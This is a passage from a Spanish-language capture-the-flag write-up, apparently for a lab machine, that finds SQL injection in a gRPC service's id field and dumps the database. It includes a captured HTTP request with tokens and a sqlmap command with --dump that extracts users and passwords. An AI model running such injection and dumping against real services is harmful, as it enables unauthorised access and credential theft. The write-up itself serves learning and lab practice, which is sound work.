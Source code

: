 ```grpcui -plaintext <IP>:50051```
![](/assets/img/PC/grpc6.png)

Aqui empece a buscar las diferentes vulnerabilidades que pueden a ver en gRPC y encontre este blog [https://www.trendmicro.com/en_us/research/20/h/how-unsecure-grpc-implementations-can-compromise-apis.html](https://www.trendmicro.com/en_us/research/20/h/how-unsecure-grpc-implementations-can-compromise-apis.html), en una parte habla de SQLi, asi que como la data que esta tramitando es al id, entonces decidi probar injectiones en ese campo

Primero puse una comilla al final del ID:

```
"data":[
  {
    "id":"738'"
  }
```
Y eso me dio un error:

![](/assets/img/PC/grpc7.png)

Seguramente el gestor de base de datos detecto un error en la consulta y arrojo eso, es posible que haya una SQLi, asi que probare con sqlmap.
Tomando en cuenta que no tenemos un servidor web como tal, entonces debemos de guardar la peticion que interceptamos con burp y usando el argumento -r de sqlmap, podemos hacerlo, este es el archivo de mi peticion:

```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:36401
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: h000rrAARGYkr4dDDax5sQUcnTmszKcRiLhk-0Aep-k
X-Requested-With: XMLHttpRequest
Content-Length: 194
Origin: http://127.0.0.1:36401
Connection: close
Referer: http://127.0.0.1:36401/
Cookie: csrftoken=dv1RLiX7MBGMrZhvyWH0W4U4HIgJZdFp; _grpcui_csrf_token=h000rrAARGYkr4dDDax5sQUcnTmszKcRiLhk-0Aep-k
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYzRydGEiLCJleHAiOjE2ODQ5ODYwNDZ9.BVAx_9R6Cch8vwCUHknTLBm9l0wukqMrsy9TJcsGlJE"}],"data":[{"id":"738"}]}
```
Y el comando de sql map es:

```
sqlmap -r "$(pwd)/peticion" -level 5 --risk 3 --batch --dump
```

Eso automaticamente nos sacara todas las tablas, columnas, e informacion en ellas, ahi podremos ver un usuario y contraseñas

![](/assets/img/PC/sql1.png)

![](/assets/img/PC/sql2.png)


### 2. SQL injection con sqlmap simulando un proxy
```
